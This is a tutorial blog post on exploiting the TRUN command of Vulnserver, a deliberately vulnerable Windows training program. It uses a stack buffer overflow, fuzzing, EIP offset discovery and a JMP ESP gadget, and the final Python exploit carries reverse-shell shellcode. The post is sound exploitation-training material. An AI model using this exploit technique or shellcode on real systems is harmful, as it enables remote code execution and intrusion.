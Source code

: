 :page-slug: vulnserver-trun/
:page-date: 2020-06-10
:page-category: attacks
:page-subtitle: From zero to shell
:page-tags: osce, vulnserver, training, exploit
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331211/blog/vulnserver-trun/cover_squjnn.webp
:page-alt: Photo by David Rangel on Unsplash
:page-description: This post will describe the steps taken to exploit the Vulnserver TRUN command using a direct EIP overwrite strategy.
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSCE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/4m7gmLNr3M0

= Vulnserver TRUN Exploitation

Vulnserver is the natural next step to follow
after finishing the Offsec `CTP` course.
It's a `VbD` (Vulnerable-by-Design) application designed
to help you sharpen the Windows exploitation skills.
You can download the executable link:https://github.com/stephenbradshaw/vulnserver[here]
along with the source code.
Remember that you must grab the `essfunc.dll` file as well.
However, this post (and the others to come) will try to replicate a
link:../../services/continuous-hacking/[grey box]
scenario that is the most common in real exploitation.
In which we only will have access to the binary,
and we must start doing things like recognizance, enumeration, and fuzzing.

*WARNING:*
Do NOT run `vulnserver.exe` on a sensitive machine or a non-secure network.
It will be a backdoor that may be used by others to break into your system.

== Enumerating Vulnserver

If you launch `vulnserver.exe` with no options, the default used port will
be *TCP/9999*.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331211/blog/vulnserver-trun/vulnserver1_tbmjrc.webp[vulnserver]

If we type `HELP`, we can see the available commands. The commands commonly
receive a single parameter and will return a simple answer.
In this post, we are going to check the `TRUN` command.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/trun1_ovjdbi.webp[trun]

For that, we issue the `TRUN` command with a single parameter and check
the answer.

== Fuzzing Vulnserver

Now that we know that the `TRUN` command receives a single parameter, we can
start fuzzing it.

For that, we'll be using link:https://github.com/guilhermeferreira/spikepp/[Spike],
a protocol fuzzer.
More info on `Spike` can be found link:https://resources.infosecinstitute.com/intro-to-fuzzing/[here].

As we determined before, `TRUN` takes a single parameter. Having noted that,
we can create the `Spike` script as simple as:

.trun.spk
[source,c]
----
s_string("TRUN ");
s_string_variable("*");
----

Notice that we are using two different `Spike` commands.
The `s_string` command will send an immutable string to the fuzzed protocol
and `s_string_variable` tells `Spike` to mutate that string.

Now we can send the fuzz attack to the victim machine:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331207/blog/vulnserver-trun/trun2_x0dg8a.webp[Running spike]

Look at that: After only 3 iterations, `vulnserver.exe` stopped working,
and it seems that it happened when we sent 5000 bytes of data.
We can see this in `Wireshark`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331212/blog/vulnserver-trun/trun3_esxmlu.webp[Wireshark capture]

With that, we can start replicating the crash. For that, we create the
first `PoC` (Proof-of-Concept) file:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

This time, let's attach `vulnserver.exe` to a debugger. I will use
link:https://www.immunityinc.com/products/debugger/[Immunity Debugger]
with link:https://github.com/corelan/mona[mona.py] plugin.

So, let's run the initial exploit and see what happens:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/trun4_rs2er8.gif[Exploit: take 1]

Great! We were able to replicate the crash of `Vulnserver`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331207/blog/vulnserver-trun/trun5_oqfsa9.webp[Controlling EIP]

If you look carefully at the image, you can see that the `EIP` register has the
value of `41414141` which is the hex representation of our payload of `A`.
`EIP` points to the next instruction to be executed, so if we can control
`EIP`, we have full control of the execution flow of the whole application.
Beautiful, isn't it?

But remember that we injected 5000 `A`, so we must know the exact offset
on where `EIP` gets overwritten.
To do that, we can create a cyclic pattern of chars that will help us identify
the exact offset that we must inject to the buffer in order to control `EIP`.
We will use a tool from `Metasploit` called `pattern_create.rb`:

.Running pattern_create.rb
[source,console]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit/
$ ./pattern_create.rb -l 5000
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/pattern1_qenkwj.webp[Cyclic pattern]

We then add that pattern to our exploit, replacing the buffer of `A` with
our pattern:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And we run the exploit again:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331211/blog/vulnserver-trun/trun6_mcugty.gif[Exploit: take 2]

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331208/blog/vulnserver-trun/trun7_bo0j8a.webp[Cyclic pattern on EIP]

As you can see, the `EIP` register now holds the value `386F4337`.
We need to check the exact offset of that string on our unique cyclic pattern.
To do that, we can use `pattern_offset.rb` from `Metasploit`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331211/blog/vulnserver-trun/pattern2_rnak0v.webp[Pattern offset]

Great, it tells us that the `EIP` gets overwritten starting on the *2003*
byte of our buffer. Let's update the exploit to verify that:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    b'B' * 4 +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

In this updated exploit, we will send a buffer of 2003 `A`,
then a single 4 byte string of `B` (whose hex representation is `42`) and
fill the rest of our 5000 buffer with `C`. If the offset is correct, `EIP` will
hold the value of `42424242` which are the four bytes of our `B` buffer:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331209/blog/vulnserver-trun/trun8_q36yi7.gif[Correct offset to EIP]

Awesome! Now, we know the exact structure of the vulnerability,
and we can proceed to exploit it.

== Exploiting

Let's look at the value of the registers at the time of the crash.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331208/blog/vulnserver-trun/trun9_exxpsn.webp[Registers]

As you can see, two registers point to our injected buffer:
`EAX`, and `ESP`.
`EAX` points at the exact beginning of our injected buffer but includes the
chars `TRUN /.:/`. Those may be translated to harmless `ASM` instructions but
we must not risk our exploitation. However, we have the other register `ESP`
which points directly to our controlled buffer.

Using `!mona findmsp` inside the debugger, we can find this information,
along with the continuous space available for us to inject our shellcode.

.findmsp
[source,console]
----
!mona findmsp
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331209/blog/vulnserver-trun/mona1_ckv1sd.webp[Mona output]

Note that we have 984 bytes after `ESP` available for us to run anything
we'd want. First, we must search on `vulnserver.exe` and its runtime
modules, an instruction that can lead us to execute code starting on
the memory region pointed by `ESP`.

First, let's find the `Vulnserver` runtime dependencies:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/deps1_wkyc6j.webp[Runtime dependencies]

It is always a good idea to look for instructions on files that are not part
of the `OS` because the address of those instructions will likely change over
different Windows versions, and that makes the exploit less portable.
Also, a null byte (`0x00`) on the address of the desired instruction
can stop our attack.

`mona.py` can also help us to identify the desired instructions on the desired
modules, by running:

.mona
[source,console]
----
!mona jmp -r esp -cp nonull -o
----

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331209/blog/vulnserver-trun/esp1_nq7r8o.webp[JMP ESP instructions]

As you can see, there are several `JMP ESP` instructions we can pick.
We are going to pick the one at `62501205`.
Let's update the exploit and replace the four `B` with that address:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * (5000 - 2003 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

If everything comes as expected, we will hit that `JMP ESP` instruction that
will lead us to execute code on our `C` buffer. Let's put a breakpoint at the
`JMP ESP` instruction and run the exploit:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331210/blog/vulnserver-trun/trun10_d5p7nq.gif[Performing the JMP ESP]

Great!

All that's left is to include a shellcode in place of the buffer of `C` so can
execute commands on the victim machine.
We will use a reverse shell payload as generated by `msfvenom`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331207/blog/vulnserver-trun/msfvenom1_sggiak.webp[Generating reverse shell]

As a rule of thumb, get used to generate shellcodes without bad chars that
may break the execution flow of our attack, such as null bytes (`0x0`),
line feed (`\r or 0xa`), and carriage return (`\n or 0xd`). You can see a
detailed way of checking for bad chars on link:../vulnserver-lter-seh/[LTER]
article.

Also, note that our `JMP ESP` led us to our `C` but not exactly at the
beginning, so we must pad the exploit with some `C` chars to make the
payload slide gracefully to the start of our reverse shell.

Let's update the exploit:

.exploit.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.23'
PORT = 9999

SHELL =  b""
SHELL += b"\xb8\x9e\x3b\xe5\xc4\xda\xcf\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x52\x31\x45\x12\x83\xc5\x04\x03\xdb"
SHELL += b"\x35\x07\x31\x1f\xa1\x45\xba\xdf\x32\x2a\x32\x3a"
SHELL += b"\x03\x6a\x20\x4f\x34\x5a\x22\x1d\xb9\x11\x66\xb5"
SHELL += b"\x4a\x57\xaf\xba\xfb\xd2\x89\xf5\xfc\x4f\xe9\x94"
SHELL += b"\x7e\x92\x3e\x76\xbe\x5d\x33\x77\x87\x80\xbe\x25"
SHELL += b"\x50\xce\x6d\xd9\xd5\x9a\xad\x52\xa5\x0b\xb6\x87"
SHELL += b"\x7e\x2d\x97\x16\xf4\x74\x37\x99\xd9\x0c\x7e\x81"
SHELL += b"\x3e\x28\xc8\x3a\xf4\xc6\xcb\xea\xc4\x27\x67\xd3"
SHELL += b"\xe8\xd5\x79\x14\xce\x05\x0c\x6c\x2c\xbb\x17\xab"
SHELL += b"\x4e\x67\x9d\x2f\xe8\xec\x05\x8b\x08\x20\xd3\x58"
SHELL += b"\x06\x8d\x97\x06\x0b\x10\x7b\x3d\x37\x99\x7a\x91"
SHELL += b"\xb1\xd9\x58\x35\x99\xba\xc1\x6c\x47\x6c\xfd\x6e"
SHELL += b"\x28\xd1\x5b\xe5\xc5\x06\xd6\xa4\x81\xeb\xdb\x56"
SHELL += b"\x52\x64\x6b\x25\x60\x2b\xc7\xa1\xc8\xa4\xc1\x36"
SHELL += b"\x2e\x9f\xb6\xa8\xd1\x20\xc7\xe1\x15\x74\x97\x99"
SHELL += b"\xbc\xf5\x7c\x59\x40\x20\xd2\x09\xee\x9b\x93\xf9"
SHELL += b"\x4e\x4c\x7c\x13\x41\xb3\x9c\x1c\x8b\xdc\x37\xe7"
SHELL += b"\x5c\x23\x6f\xe7\x88\xcb\x72\xe7\xa1\x57\xfa\x01"
SHELL += b"\xab\x77\xaa\x9a\x44\xe1\xf7\x50\xf4\xee\x2d\x1d"
SHELL += b"\x36\x64\xc2\xe2\xf9\x8d\xaf\xf0\x6e\x7e\xfa\xaa"
SHELL += b"\x39\x81\xd0\xc2\xa6\x10\xbf\x12\xa0\x08\x68\x45"
SHELL += b"\xe5\xff\x61\x03\x1b\x59\xd8\x31\xe6\x3f\x23\xf1"
SHELL += b"\x3d\xfc\xaa\xf8\xb0\xb8\x88\xea\x0c\x40\x95\x5e"
SHELL += b"\xc1\x17\x43\x08\xa7\xc1\x25\xe2\x71\xbd\xef\x62"
SHELL += b"\x07\x8d\x2f\xf4\x08\xd8\xd9\x18\xb8\xb5\x9f\x27"
SHELL += b"\x75\x52\x28\x50\x6b\xc2\xd7\x8b\x2f\xe2\x35\x19"
SHELL += b"\x5a\x8b\xe3\xc8\xe7\xd6\x13\x27\x2b\xef\x97\xcd"
SHELL += b"\xd4\x14\x87\xa4\xd1\x51\x0f\x55\xa8\xca\xfa\x59"
SHELL += b"\x1f\xea\x2e"

PAYLOAD = (
    b'TRUN /.:/' +
    b'A' * 2003 +
    # 62501205   FFE4             JMP ESP
    struct.pack('<L', 0x62501205) +
    b'C' * 32 +
    SHELL +
    b'C' * (5000 - 2003 - 4 - 32 - len(SHELL))
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And let's check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331208/blog/vulnserver-trun/success_kmx7zp.gif[Our reverse shell]

Great! We got our shell!

You can download the final exploit link:exploit.py[here]

== Conclusion

This was one of the most straightforward exploits for Vulnserver.
Other commands will pose a little more effort, but fear not;
we will post here how to exploit them successfully.

